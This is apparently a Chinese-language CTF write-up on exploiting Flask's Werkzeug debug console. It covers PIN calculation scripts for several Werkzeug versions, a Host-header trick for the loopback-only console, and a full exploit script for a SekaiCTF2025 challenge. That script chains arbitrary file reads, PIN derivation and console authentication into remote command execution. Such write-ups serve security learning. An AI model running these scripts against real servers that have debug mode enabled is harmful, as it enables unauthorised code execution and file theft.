

经常做python题目就能发现，大多数python题只要看源代码引用了什么扩展库就能知道是什么类型的题，解题思路还是比较模式化的，如果能总结一下的话就不用每次做题都花时间审计源代码了。
flask通过PIN码进入debug模式
漏洞成因
漏洞成因是启动程序时设置了debug=True，具体是
if __name__ == '__main__':
app.run(host='0.0.0.0', port=5000, debug=True)PIN码一般储存在/proc/sys/kernel/random/boot_id中，如果有值就不用算了
python的PIN码组成
PIN码的计算主要由6个部分组成： probably_public_bits
- username：用户名，一般在/etc/passwd里
- modname：getattr(app, “name”, app.class.name)，默认值为flask.app
- appname：getattr(app, “module”, t.cast(object, app).class.module)，默认值为Flask
- moddir：
getattr(mod, "__file__", None)，flask库下app.py的绝对路径 private_bits - uuidnode：当前网络的mac地址的十进制数，
str(uuid.getnode())，即电脑上的 MAC 地址，也可以通过读取/sys/class/net/eth0/address 获取，一般得到的是一串十六进制数，将其中的横杠去掉然后转成十进制，例如：00:16:3e:03:8f:39 ⇒95529701177 - machine_id：
get_machine_id()，首先读取/etc/machine-id(docker不读它，即使有)，如果有值则不读取/proc/sys/kernel/random/boot_id，否则读取该文件。接着读取/proc/self/cgroup，取第一行的最后一个斜杠/ 后面的所有字符串，与上面读到的值拼接起来，最后得到machine_id。 很多都是默认的，重点关注三个东西：
- moddir：flask所在的路径，通过查看debug报错信息获得
- uuidnode:通过uuid.getnode()读取，通过文件/sys/class/net/eth0/address得到16进制结果，转化为10进制进行计算
- machine_id：linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_id，docker靶机则读取/proc/self/cgroup
计算PIN码
下面是两个版本的PIN码计算脚本： werkzeug1.0.x
import hashlib
from itertools import chain
probably_public_bits = [
'root'#username，通过/etc/passwd
'flask.app',#modname，默认值
'Flask',# 默认值
'/usr/local/lib/python3.7/site-packages/flask/app.py'# moddir，通过报错获得
]
private_bits = [
'25214234362297', # mac十进制值 /sys/class/net/ens0/address
'0402a7ff83cc48b41b227763d03b386cb5040585c82f3b99aa3ad120ae69ebaa' # 低版本直接/etc/machine-id
]
# 下面为源码里面抄的，不需要修改
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)werkzeug>=2.0.x
import hashlib
from itertools import chain
# 可能是公开的信息部分
probably_public_bits = [
'root', # /etc/passwd
'flask.app', # 默认值
'Flask', # 默认值
'/usr/local/lib/python3.8/site-packages/flask/app.py' # moddir，报错得到
]
# 私有信息部分
private_bits = [
'2485377568585', # /sys/class/net/eth0/address 十进制
'653dc458-4634-42b1-9a7a-b22a082e1fce898ba65fb61b89725c91a48c418b81bf98bd269b6f97002c3d8f69da8594d2d2'
# machine-id部分
]
# 创建哈希对象
h = hashlib.sha1()
# 迭代可能公开和私有的信息进行哈希计算
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
# 加盐处理
h.update(b'cookiesalt')
# 生成 cookie 名称
cookie_name = '__wzd' + h.hexdigest()[:20]
print(cookie_name)
# 生成 pin 码
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
# 格式化 pin 码
rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)注：Werkzeug 是一个用于Python Web 开发的工具库，它遵循WSGI (Web Server Gateway Interface) 规范，提供了一系列底层工具来帮助开发者构建Web 应用程序。Werkzeug 本身不是一个Web 服务器，也不是一个完整的Web 框架，而是为这些框架提供了基础功能。
Werkzeug>=3.0.3仅支持本地回环地址
Werkzeug>=3.0.3时/console仅支持在本地回环地址（也就是127.0.0.1和localhost）中访问，因此需要将请求头host的值改为127.0.0.1，否则会返回400
手算cookie
当Werkzeug>=3.0.3时，无法通过无法获取返回的cookie，也无法使用/console进入debug的控制台的时候就需要我们手算cookie了 提交pin码时的请求：
GET /console?__debugger__=yes&cmd=pinauth&pin=1&s=3YTBnR7SAoHOJWUIFhVI HTTP/1.1
可以看到这里和s有关
提交正确的pin码后会返回
{"auth": true, "exhausted": false}
并设置cookie
Set-Cookie: __wzd2d764a6d4e16687fcf23=1728990230|dee0430f742b; HttpOnly; Path=/;
之后执行命令时需带着这个cookie才可执行 注意这里的请求多了frm即frame当前帧
GET /console?&__debugger__=yes&cmd=print(%27mixian%27)&frm=0&s=ZfYmlGiajkioMsAqVOFQ HTTP/1.1总结一下就是Werkzeug会根据s创建cookie用于认证成功提交pin码，然后才可以执行带着frm和cookie的执行命令的请求 所以接下来的任务就是在拿到pin的前提下构造cookie
所以我们先看一下s怎么获取，访问console路由看源码就行，或者搞一个报错，源码里也有

例题
例题:[SekaiCTF2025]my-flask-app 比较重要的源码只有两部分： app.py
from flask import Flask, request, render_template
app = Flask(__name__)
@app.route('/')
def hello_world():
return render_template('index.html')
@app.route('/view')
def view():
filename = request.args.get('filename')
if not filename:
return "Filename is required", 400
try:
with open(filename, 'r') as file:
content = file.read()
return content, 200
except FileNotFoundError:
return "File not found", 404
except Exception as e:
return f"Error: {str(e)}", 500
if __name__ == '__main__':
app.run(host='0.0.0.0', port=5000, debug=True)app.py定义了根路由和/view读取任意文件,debug=True开启/console dockerfile
FROM python:3.11-slim
RUN pip install --no-cache-dir flask==3.1.1
WORKDIR /app
COPY app .
RUN mv flag.txt /flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1).txt && \
chown -R nobody:nogroup /app
USER nobody
EXPOSE 5000
CMD ["python", "app.py"]将flag.txt的文件名之后加了32位随机字符串，不能通过/view读取到，flask == 3.1.1使/console仅支持本地回环地址访问 将host改为127.0.0.1即可看到回显（这里不要用yakit改包，推荐用burpsuite，因为burpsuite只会修改请求头而不会改变TCP连接目标，yakit是根据Host确定连接目标的） exp.py
from requests import get
import hashlib
from itertools import chain
import re
HOST = "https://my-flask-app.chals.sekai.team:1337"
def getfile(filename):
try:
response = get(f"{HOST}/view?filename={filename}")
return response.text
except Exception as e:
print(f"Error: {e}")
return None
def get_pin(probably_public_bits, private_bits):
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
return rv
def get_secret():
response = get(f"{HOST}/console", headers={"Host": "127.0.0.1"})
match = re.search(r'SECRET\s*=\s*["\']([^"\']+)["\']', response.text)
if match:
return match.group(1)
return None
def authenticate(secret, pin):
response = get(f"{HOST}/console?__debugger__=yes&cmd=pinauth&pin={pin}&s={secret}", headers={"Host": "127.0.0.1"})
return response.headers.get("Set-Cookie")
def execute_code(cookie, code, secret):
response = get(f"{HOST}/console?__debugger__=yes&cmd={code}&frm=0&s={secret}", headers={"Host": "127.0.0.1", "Cookie": cookie})
return response.text
if __name__ == "__main__":
mac = getfile("/sys/class/net/eth0/address")
mac = str(int("0x" + "".join(mac.split(":")).strip(), 16))
boot_id = getfile("/proc/sys/kernel/random/boot_id").strip()
# should be default
probably_public_bits = [
'nobody',
'flask.app',
'Flask',
'/usr/local/lib/python3.11/site-packages/flask/app.py' # change this to the path of the flask app
]
private_bits = [
mac,
boot_id
]
print("Found Console PIN: ", get_pin(probably_public_bits, private_bits))
secret = get_secret()
print("Found Secret: ", secret)
cookie = authenticate(secret, get_pin(probably_public_bits, private_bits))
print("Found Cookie: ", cookie)
print("Executing code...")
output = execute_code(cookie, "__import__('os').popen('cat /flag*').read()", secret)
match = re.search(r'SEKAI\{.*\}', output)
if match:
print("Found flag: ", match.group(0))
else:
print("No flag found")
print("Done")pin_endode.py
import hashlib
import itertools
from itertools import chain
def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
h = hashlib.md5()
crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)
def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
h = hashlib.sha1()
crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)
def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
probably_public_bits = [
username,
modname,
appname,
flaskapp_path ]
private_bits = [
node_uuid,
machine_id ]
h = hasher
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num
print(rv)
if __name__ == '__main__':
usernames = ['nobody']
modnames = ['flask.app']
appnames = ['Flask']
flaskpaths = ['/usr/local/lib/python3.11/site-packages/flask/app.py']
nodeuuids = ['266929268995338']
machineids = ['d012874f-9e09-499b-b531-f5fc6ecffb27']
# Generate all possible combinations of values
combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)
# Iterate over the combinations and call the crack() function for each one
for combo in combinations:
username, modname, appname, flaskpath, nodeuuid, machineid = combo
print('==========================================================================')
crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
print(f'{combo}')
print('==========================================================================')